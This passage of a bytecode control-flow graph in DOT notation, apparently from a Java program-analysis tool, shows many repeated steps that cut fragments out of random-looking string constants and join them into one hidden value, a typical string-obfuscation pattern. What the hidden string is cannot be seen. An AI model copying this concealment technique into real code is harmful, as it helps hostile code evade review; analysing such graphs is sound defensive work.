    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"RyGf72Fb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"RyGf72Fb\"";
    "push \"RyGf72Fb\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yc282Ztez\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yc282Ztez\"";
    "push \"yc282Ztez\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"U893bkE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"U893bkE\"";
    "push \"U893bkE\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4r65Dh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4r65Dh\"";
    "push \"4r65Dh\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5a2ezn\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5a2ezn\"";
    "push \"5a2ezn\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"kH6deyR4b\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"kH6deyR4b\"";
    "push \"kH6deyR4b\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rQ652N\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rQ652N\"";
    "push \"rQ652N\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Zt73eT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Zt73eT\"";
    "push \"Zt73eT\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0c73QwU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0c73QwU\"";
    "push \"0c73QwU\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"WrJ61tE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"WrJ61tE\"";
    "push \"WrJ61tE\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tJ67wN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tJ67wN\"";
    "push \"tJ67wN\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ht652Gk\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ht652Gk\"";
    "push \"Ht652Gk\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"DY03dCR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"DY03dCR\"";
    "push \"DY03dCR\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0u20NCQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0u20NCQ\"";
    "push \"0u20NCQ\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"z0C74gcjB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"z0C74gcjB\"";
    "push \"z0C74gcjB\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cUL1685gjR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cUL1685gjR\"";
    "push \"cUL1685gjR\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Kt69pS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Kt69pS\"";
    "push \"Kt69pS\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2T73dg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2T73dg\"";
    "push \"2T73dg\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qV3bVN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qV3bVN\"";
    "push \"qV3bVN\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"fV7S72R1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"fV7S72R1\"";
    "push \"fV7S72R1\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2A657utz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2A657utz\"";
    "push \"2A657utz\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yW47Q5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yW47Q5\"";
    "push \"yW47Q5\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Y2577t\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Y2577t\"";
    "push \"Y2577t\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"41026eHh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"41026eHh\"";
    "push \"41026eHh\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ps2066B\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ps2066B\"";
    "push \"Ps2066B\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"SPQ53btL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"SPQ53btL\"";
    "push \"SPQ53btL\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gyQ7dUwc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gyQ7dUwc\"";
    "push \"gyQ7dUwc\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MR3bHD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MR3bHD\"";
    "push \"MR3bHD\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0jL667tr\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0jL667tr\"";
    "push \"0jL667tr\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mz5600\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mz5600\"";
    "push \"mz5600\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nDe63sL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nDe63sL\"";
    "push \"nDe63sL\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"z6c7461y\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"z6c7461y\"";
    "push \"z6c7461y\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"sC9667uH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"sC9667uH\"";
    "push \"sC9667uH\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"m4f6eF0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"m4f6eF0\"";
    "push \"m4f6eF0\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"KTd20FE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"KTd20FE\"";
    "push \"KTd20FE\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1Y4ehyB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1Y4ehyB\"";
    "push \"1Y4ehyB\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"eu707V3C1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"eu707V3C1\"";
    "push \"eu707V3C1\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rn46DE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rn46DE\"";
    "push \"rn46DE\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nMb4bRWLj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nMb4bRWLj\"";
    "push \"nMb4bRWLj\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"VW41B4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"VW41B4\"";
    "push \"VW41B4\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cpg45anR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cpg45anR\"";
    "push \"cpg45anR\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tDJvc54LdSt\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tDJvc54LdSt\"";
    "push \"tDJvc54LdSt\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"HL445caj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"HL445caj\"";
    "push \"HL445caj\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZCV4724g\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZCV4724g\"";
    "push \"ZCV4724g\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0B5E87ZQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0B5E87ZQ\"";
    "push \"0B5E87ZQ\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rM1t37yz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rM1t37yz\"";
    "push \"rM1t37yz\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"YER47DJB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"YER47DJB\"";
    "push \"YER47DJB\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jW22QF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jW22QF\"";
    "push \"jW22QF\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4497FyR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4497FyR\"";
    "push \"4497FyR\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uYb6na\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uYb6na\"";
    "push \"uYb6na\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qG93dJCE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qG93dJCE\"";
    "push \"qG93dJCE\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cLw8j30zk\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cLw8j30zk\"";
    "push \"cLw8j30zk\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"JFK3b6mv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"JFK3b6mv\"";
    "push \"JFK3b6mv\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"keVa3PZkbj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"keVa3PZkbj\"";
    "push \"keVa3PZkbj\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gjd304p\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gjd304p\"";
    "push \"gjd304p\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qJ3b7RbS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qJ3b7RbS\"";
    "push \"qJ3b7RbS\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"s546bcvLH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"s546bcvLH\"";
    "push \"s546bcvLH\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2R7869K20ES\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2R7869K20ES\"";
    "push \"2R7869K20ES\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8sYa6732Yk1N\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8sYa6732Yk1N\"";
    "push \"8sYa6732Yk1N\""->"push 5";
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A0Ye74PL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A0Ye74PL\"";
    "push \"A0Ye74PL\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Jw6f4g\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Jw6f4g\"";
    "push \"Jw6f4g\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qth53aZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qth53aZ\"";
    "push \"qth53aZ\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"vjA74p4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"vjA74p4\"";
    "push \"vjA74p4\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"G4A726eu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"G4A726eu\"";
    "push \"G4A726eu\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"dyGy96eE84M\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"dyGy96eE84M\"";
    "push \"dyGy96eE84M\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4A672qb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4A672qb\"";
    "push \"4A672qb\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uP03Bj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uP03Bj\"";
    "push \"uP03Bj\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
